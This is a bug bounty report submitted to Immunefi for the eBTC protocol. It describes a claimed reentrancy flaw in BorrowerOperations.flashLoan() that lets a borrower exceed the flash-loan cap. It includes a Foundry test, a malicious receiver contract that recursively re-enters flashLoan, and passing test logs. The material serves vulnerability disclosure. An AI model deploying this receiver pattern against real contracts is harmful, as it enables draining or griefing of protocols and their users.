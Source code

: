 
# Reentrancy in BorrowerOperations.flashLoan(), enabling an attacker to borrow unlimited eBTC exceeding the maxFlashLoan limit

Submitted on Feb 23rd 2024 at 08:12:41 UTC by @OxG0P1 for [Boost | eBTC](https://immunefi.com/bounty/ebtc-boost/)

Report ID: #28659

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/ebtc-protocol/ebtc/blob/release-0.7/packages/contracts/contracts/BorrowerOperations.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
Due to an reentrancy attack vector, an attacker can flashLoan an unlimited amount of eBTC. For example the attacker can create a malicious contract as the receiver, to execute the attack via the onFlashLoan callback .

The exploit works because BorrowerOperations.flashLoan() is missing a reentrancy protection (modifier).

As a result an unlimited amount of eBTC can be borrowed by an attacker via the flashLoan .

## Vulnerability Details
The BorrowerOperations.sol contract facilitates the execution of flash loans for eBTC. A user is permitted to loan a maximum amount of type(uint112).max. However, a vulnerability exists wherein an attacker can exploit the absence of the Reentrancy modifier in the BorrowerOperations.flashLoan() function. This oversight enables an attacker to potentially mint an infinite amount of eBTC tokens. By leveraging a malicious receiver implementation contract, the attacker can execute this exploit, posing a significant risk to the integrity and security of the eBTC ecosystem.

## Impact Details
An attacker can bypass the maxFlashloan amount and mint infinite amount of eBTC tokens.

## References
https://github.com/ebtc-protocol/ebtc/blob/a96bd000c23425f04c3223a441a625bfb21f6686/packages/contracts/contracts/BorrowerOperations.sol#L1091-L1122



## Proof of Concept
`Test :`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;

import "forge-std/Test.sol";
import {eBTCBaseFixture} from "./BaseFixture.sol";
import {UselessFlashReceiver, eBTCFlashReceiver, FlashLoanSpecReceiver, FlashLoanWrongReturn} from "./utils/Flashloans.sol";

/*
 * Unit Tests for Flashloans
 * Basic Considerations:
 * Flash Fee can go to zero due to rounding, that's marginal
 * Minting is capped at u112 for UniV2 Compatibility, but mostly arbitrary
 */
contract FlashLoanUnitEBTC is eBTCBaseFixture {
    // Flashloans
    UselessFlashReceiver internal uselessReceiver;
    eBTCFlashReceiver internal ebtcReceiver;
    FlashLoanSpecReceiver internal specReceiver;
    FlashLoanWrongReturn internal wrongReturnReceiver;

    function setUp() public override {
        // Base setup
        eBTCBaseFixture.setUp();

        eBTCBaseFixture.connectCoreContracts();
        eBTCBaseFixture.connectLQTYContractsToCore();

        // Create a CDP
        address payable[] memory users;
        users = _utils.createUsers(1);
        address user = users[0];
        uint256 borrowedAmount = _utils.calculateBorrowAmount(
            30 ether,
            priceFeedMock.fetchPrice(),
            COLLATERAL_RATIO
        );
        // Make sure there is no CDPs in the system yet
        assert(sortedCdps.getLast() == "");
        vm.startPrank(user);
        collateral.approve(address(borrowerOperations), type(uint256).max);
        collateral.deposit{value: 30 ether}();
        borrowerOperations.openCdp(borrowedAmount, "hint", "hint", 30 ether);
        vm.stopPrank();

        uselessReceiver = new UselessFlashReceiver();
        ebtcReceiver = new eBTCFlashReceiver();
        specReceiver = new FlashLoanSpecReceiver();
        wrongReturnReceiver = new FlashLoanWrongReturn();
    }



    function testReenter() public{
        uint256 loanAmount = borrowerOperations.maxFlashLoan(address(eBTCToken));
        uint256 fee = borrowerOperations.flashFee(address(eBTCToken), loanAmount);
        deal(address(eBTCToken), address(ebtcReceiver), fee * 3); //Receiver implemntation should have eBTC to pay fee
        borrowerOperations.flashLoan(
            ebtcReceiver,
            address(eBTCToken),
            loanAmount,
            abi.encodePacked(uint256(0))
        );

        uint result = ebtcReceiver.trace();
        console.log(result); // The amount that the attacker minted
        console.log(loanAmount); //Maximum allowed amount that an user can mint

    }
}
```

`Receiver Implementation :`

```solidity
interface IborrowerOperations{
    function flashLoan( 
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external  returns (bool);
}




contract eBTCFlashReceiver is IERC3156FlashBorrower {
    uint  goal =  5192296858534827628530496329220095 * 2; // Goal amount of the attacker which is type(uint112 ).max * 2
    uint public trace; 
    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external override returns (bytes32) {

        uint256 loanAmount = amount;
        trace += amount;
        if(trace < goal){ // Attacker keep calling the flashLoan until goal reached
            
            IborrowerOperations(msg.sender).flashLoan(
                IERC3156FlashBorrower(address(this)),
                address(token),
                loanAmount,
                abi.encodePacked(uint256(0))
        );
        }
        // Approve amount and fee
        IERC20(token).approve(msg.sender, amount + fee);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

`Test Results :`
```solidity
[PASS] testReenter() (gas: 275631)
Logs:
  10384593717069655257060992658440190
  5192296858534827628530496329220095
```